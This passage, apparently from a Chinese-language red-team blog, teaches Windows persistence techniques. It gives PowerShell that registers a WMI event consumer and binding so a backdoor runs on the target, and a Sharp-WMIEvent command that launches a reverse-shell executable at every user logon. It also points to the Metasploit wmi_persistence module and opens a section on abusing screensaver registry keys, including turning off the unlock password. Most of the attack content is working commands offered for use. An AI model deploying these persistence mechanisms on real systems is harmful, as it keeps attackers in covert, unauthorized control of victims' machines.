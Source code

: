   ```powershell
  # 创建一个名为TestConsumer的事件消费者，在指定事件发生时执行命令
  $CommandLineEventConsumerArgs = @{
      Name = "TestConsumer"
      CommandLineTemplate = "cmd.exe"
  }
  $EventConsumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments $CommandLineEventConsumerArgs
  
  # 绑定过滤器和事件消费者
  $FilterConsumerBindingArgs = @{
      Filter = $EventFilter
      Consumer = $EventConsumer
  }
  $FilterConsumerBinding = Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments $FilterConsumerBindingArgs
  ```

  执行上述命令，目标机器会在5分钟内执行后门程序(可以通过将上述代码保存为ps1文件进行执行)

+ 相关辅助工具

  Sharp-WMIEvent在横向移动中可以用来在远程主机上执行命令，同样可以用来在控制机器上部署订阅事件

  执行以下命令，利用该工具在本地部署一个订阅事件

  ```
   Sharp-WMIEvent -Trigger UserLogon -Command "cmd.exe /c C:\Windows\Sytem32\reverse_tcp.exe"
  ```

  ![sharp-wmievent](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/sharp-wmievent.png)

  这将部署一个随机命名的永久事件订阅，每当用户登录时将会执行恶意程序并上线

  msf中有可以直接利用订阅事件的模块

  ```
  exploit/windows/local/wmi_persistence
  ```

  可通过自行设置trigger来控制事件的触发

### 利用屏幕保护程序

屏幕保护程序是windows的一项功能，就是长时间没有动作自动启动的程序，例如熄屏等操作，这些操作由.scr可执行程序文件组成，能够在注册表中找到。

系统注册表项`HKEY_CURRENT_USER\Control Panel\Desktop`下储存了用来设定屏幕保护程序的键值

![scenn](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/scenn.png)

```
SCRNSAVE.EXE 设定屏幕保护程序的路径，指向.scr为扩展名的可执行文件
ScreenSaveActive 屏幕保护程序的启动设置，1为启动
ScreenSaverIsSecure 设置是否需要密码解锁，0表示不需要
ScreenSaveTimeOut 设置执行屏幕保护程序之前用户不活动的超时时间
```

注意：默认只有ScreenSaveActive存在，其余三个需要自行创建
